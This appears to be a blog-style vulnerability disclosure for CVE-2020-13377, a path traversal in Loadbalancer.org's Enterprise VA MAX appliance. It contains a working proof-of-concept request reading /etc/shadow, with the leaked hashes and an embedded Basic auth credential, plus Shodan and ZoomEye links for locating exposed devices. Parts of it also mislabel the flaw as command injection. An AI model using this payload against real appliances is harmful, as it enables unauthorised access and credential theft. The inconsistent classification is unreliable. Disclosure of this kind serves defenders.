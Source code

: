 ```yaml
---
layout: post
title:  "Path traversal in Enterprise loadbalancer VA MAX - v8.3.8 and earlier"
date:   2020-04-21 19:51:02 +0700 
categories: [cve]
---
```


Vulnerability: Path traversal (also known as directory traversal or file path injection) 

Path traversal in Enterprise loadbalancer VA MAX Appliance v8.3.8-134

Vendor: Loadbalancer.org, https://www.loadbalancer.org

Product: ENTERPRISE VA MAX

Version affected: Loadbalancer.org Appliance v8.3.8 as the latest in October 2019

#### Product description:

"Loadbalancer.org is a well-established international provider of reliable, versatile and cost-effective application delivery products and services. The load balancer experts help solve the issues of availability and scalability by providing an unbreakable solution to ensure zero downtime of critical IT applications.

Loadbalancer.org’s consultancy led approach means they have specialist engineers that will help design and simplify architecture guaranteeing painless deployments every single time. The team of experts are effortlessly able to set up test environments, document each deployment, provide customized solutions and assist with complex migrations. They will support a business, not just the load balancer!

Loadbalancer.org load balancers are sold as hardware, virtual or cloud formats and are more scalable, flexible and are economical compared to competitive offerings.  With no performance or feature restrictions, their suite of products can load balance any application, for any company, in any industry, anywhere in the world. 

Allowing customers to have direct access 24 hours a day 7 days a week to a team of passionate engineers via phone, online chat and e-mail sets Loadbalancer.org apart from other ADC vendors.  

" as per statement on https://www.linkedin.com/company/loadbalancer-org  website. 

* CVE ID: CVE-2020-13377
* CWE ID: CWE-35

#### Vulnerability description:

Path traversal (also known as directory traversal or file path injection) is a type of vulnerability that allows an attacker to access files and directories 
on a web server that are outside of the web root directory. This vulnerability occurs when a web application does not properly sanitize user input 
that is used to construct a file path.

The evidence of a path traversal attack could include a log entry that shows an attempt to access a file or directory 
that is outside the expected range of directories. For example, if the web application is designed to serve files from the directory /var/www/html/, 
an attacker might try to access the file /etc/passwd by providing input such as ../../../../../etc/passwd.

Other evidence of a path traversal attack could include unusual file access patterns or unexpected file system activity, 
which could be detected through file system monitoring tools or intrusion detection systems. Additionally, if an attacker is able to 
successfully exploit a path traversal vulnerability, they may be able to exfiltrate sensitive data or execute arbitrary code on the web server. 
In such cases, the evidence of the attack may include changes to system files or the creation of new files or directories.

##### Proof of Concept

A command Injection vulnerability allows attackers to execute arbitrary OS commands via a crafted HTTP request. This is exploitable by an authenticated attacker who submits a modified GET request.

Sample GET request to 'etc/shadow' file, which allowed an attacker to access files and directories on a web server that are outside of the web root directory. This vulnerability occurs when a web application does not properly sanitize user input that is used to construct a file path.

Identified vulnerable parameters: waf_filename  

#### Request:

{% highlight ruby %}
GET /lbadmin/ajax/js_dispatcher.php?option=waf_log&waf_filename=..%2f..%2f..%2fetc%2fshadow&log_option=base HTTP/1.1
Host: x.x.x.x:9443
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.14; rv:69.0) Gecko/20100101 Firefox/69.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
X-Requested-With: XMLHttpRequest
Authorization: Basic bG9hZGJhbGFuY2VyOmxvYWRiYWxhbmNlcg==

HTTP/1.1 200 OK
Date: Wed, 18 Sep 2019 13:29:53 GMT
Server: Apache
Content-Length: 930
Content-Type: text/html; charset=UTF-8

{"success":["","radiusd:!!:17933::::::","stunnel:!!:15764::::::","memcached:!!:15484::::::","ntp:!!:15484::::::","hacluster:!!:15392::::::","setup:$1$XIQ18c0a$kxvCj1sZJoBFG9i5qNWSp0:15392:0:99999:7:::","nginx:!!:15392::::::","pound:!!:15392::::::","tcpdump:!!:15392::::::","apache:!!:15392::::::","sshd:!!:15392::::::","postfix:!!:15392::::::","saslauth:!!:15392::::::","vcsa:!!:15392::::::","nobody:*:15240:0:99999:7:::","ftp:*:15240:0:99999:7:::","gopher:*:15240:0:99999:7:::","games:*:15240:0:99999:7:::","operator:*:15240:0:99999:7:::","uucp:*:15240:0:99999:7:::","mail:*:15240:0:99999:7:::","halt:*:15240:0:99999:7:::","shutdown:*:15240:0:99999:7:::","sync:*:15240:0:99999:7:::","lp:*:15240:0:99999:7:::","adm:*:15240:0:99999:7:::","daemon:*:15240:0:99999:7:::","bin:*:15240:0:99999:7:::","root:$6$dNu030j\/gSf.5fUS$kxcv9wApSA4pWnLL1WNt7DZftZbYj8Pu2XY63g8JnAgjAREV3tjbthYD7BKq0hDMMLL4OrO1Yyg4IlAEGpzHv0:15392:0:99999:7:::"]}
{% endhighlight %}

#### Public searches:

https://www.zoomeye.org/searchResult?q=Loadbalancer%2Corg

https://www.shodan.io/search?query=loadbalancer.org

but this company has interestingly some reputable partnership alliance

![Raw HTTP Request/Response ](/static/img/Loadbalancer.png)

#### References
1. https://www.immuniweb.com/vulnerability/os-command-injection.html
2. https://www.loadbalancer.org
3. https://cwe.mitre.org/data/definitions/78.html
4. https://www.checkmarx.com/knowledge/knowledgebase/OS-Command_Injection
